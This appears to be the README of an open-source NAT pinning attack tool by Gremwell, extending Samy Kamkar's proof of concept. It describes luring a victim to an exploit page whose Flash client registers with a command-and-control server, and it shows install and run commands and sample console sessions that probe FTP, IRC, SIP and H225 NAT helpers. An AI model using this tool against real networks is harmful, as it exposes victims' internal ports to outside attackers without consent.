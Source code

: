NATpinning
===============
This tool is based of the original NAT pinning proof-of-concept by Samy Kamkar: http://samy.pl/natpin/.
Nat handler modules are used by the kernel to keep track of protocols on natted networks that require additional communication channels to be opened for normal operations. These modules might be susceptible to abuse if/when they do not strictly adhere to RFCs. They might for instance allow the exposure of assigned ports, where only random port ranges should be allowed, or allow exposure of ports on a third party.

Samy's original proof-of-concept was javascript based, which brought with it several shortcommings:

	- client-response sequences might be broken due to additional HTTP headers
	- opening some ports might be blocked by browsers (e.g.: 6667 for irc on Firefox)

To overcome these issues I used flash as client side component. This allowed the use of Flash sockets, which don't have the extra overhead of HTTP headers and are not restricted by browser policies. 
I also attempted to extend this proof-of-concept to a more mature state by creating a server side tool which supports several protocols and gives some level of control over the client behavior.


How it works
============
The suite consists of of a server compnent (python) and a client component (web page).

The server is a python script which needs to be run from an Internet based host, with a public IP assigned to it and not firewalled.
Once the script is running it will open dummy services (irc, ftp, sip ), a flash policy server, a web service and a command-and-control service.

The client is the combination of HTML, JavaScript and, most importantly, a AS3 (Actionscript 3) flash file. 
When the victim loads the exploit page, the flash file will connect to the command service and register itself.
At this point it is possible to start testing for possible natpinning issues using the command server by instructing the client to initiate sessions for the different protocols.

When succesfull nat pinning is detected the user controlling the server can drop to shell and initiate a connection back to the newly exposed port using their favorite tool.

Installation
==============
Tested on xubuntu and backtrack, requires python 2.7
to install:
git clone https://github.com/allodoxaphobia/natpinning.git


Usage
==============
on the server: sudo ./run.py

Usage: run.py 

Options:
  -h, --help  show this help message and exit
  --no-web    Do not run the internal web service (port 80).
  --no-flash  Do not run the internal flash policy service (port 843).
  -v VERBOSE  Verbosity level, default is 2, set to 0 if you like a lot of
              output.

Example 1: Testing for FTP NAT pinning (failed)
==================================================

On the server: sudo ./run.py

 $ sudo ./run.py -v 0
 Command Server : Started
 Web Se1.2.3.4d
 Flash Policy Server : Started
 FTP Server : Started
 IRC Server : Started
 SIP Server : Started
 H225 Server : Started
 Services running, press CTRL-C to exit.
 One shell to rule them all

Assuming 1.2.3.4 is IP address of the server, open http://1.2.3.4/ in a browser on the client side:
 This page intentionally left blank. Tests are in progress.
 Usage: http://server/exploit.html?ci=ip_of_client

Same time on the server side:
 Web Server : Received connection from ::ffff:1.2.3.4 on port 80
 Web Server : Victim requested page: exploit.html
 Web Server : ---User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:25.0) Gecko/20100101 Firefox/25.0

Open http://1.2.3.4/exploit.html?ci=192.168.1.44 in a browser on the client side:
 This page intentionally left blank. Tests are in progress.

Same time on the server side:
 Web Server : Received connection from ::ffff:1.2.3.4 on port 80
 Web Server : Victim requested page: exploit.html?ci=192.168.1.44
 Web Server : ---User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:25.0) Gecko/20100101 Firefox/25.0
 Web Server : Victim requested page: exploit.swf
 Web Server : ---User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:25.0) Gecko/20100101 Firefox/25.0
 Flash Policy Server : Received connection from ::ffff:1.2.3.4 on port 843
 Flash Policy Server : FLASH policy file request
 Command Server : Received connection from ::ffff:1.2.3.4 on port 60003
 Command Server : New client registered as ::ffff:1.2.3.4-192.168.1.44

 np> list clients
    ID	Client ID			Address
 --------------------------------------------------------------------------
    0.   ::ffff:1.2.3.4-192.168.1.44		::ffff:1.2.3.4		197

 np> test 0 ftp 192.168.1.44 22
 Command Server : ::ffff:1.2.3.4-192.168.1.44 : send 20140112140348852654
 FTP Server : Received connection from ::ffff:1.2.3.4 on port 21
 FTP Server : Callback expected on 192.168.1.44:22
 FTP Server : FTP Received PORT + LIST callback request for 192.168.1.44 on port 22
 Test 20140112140348852654 FAILED

Examples (irc/sip/h225):
========================

np> test 0 irc 192.168.1.4 22
np> Command Server : ::ffff:85.234.199.198-192.168.1.4 : send 20140112145140604761
IRC Server : Received connection from ::ffff:85.234.199.198 on port 6667
IRC Server : IRC Received DCC CHAT callback request for 192.168.1.4 on port 22
Test 20140112145140604761 FAILED

np> test 0 sip 192.168.1.4 22
np> Command Server : ::ffff:85.234.199.198-192.168.1.4 : send 20140112145205576743
SIP Server : Received connection from ::ffff:85.234.199.198 on port 5060
SIP Server : SIP REGISTER callback (UDP) received for 192.168.1.4 on port 22
Test 20140112145205576743 FAILED

np> test 0 h225 192.168.1.4 22
np> Command Server : ::ffff:85.234.199.198-192.168.1.4 : send 20140112145230712736
H225 Server : Received connection from ::ffff:85.234.199.198 on port 1720
H225 Server : Q931.Type: 7
20140112145230712736
H225 Server : Q931.PDU Length: 76
Test 20140112145230712736 FAILED


License
==============
This tool was created by Gremwell (http://www.gremwell.com) and released under GNU GPL v3. 
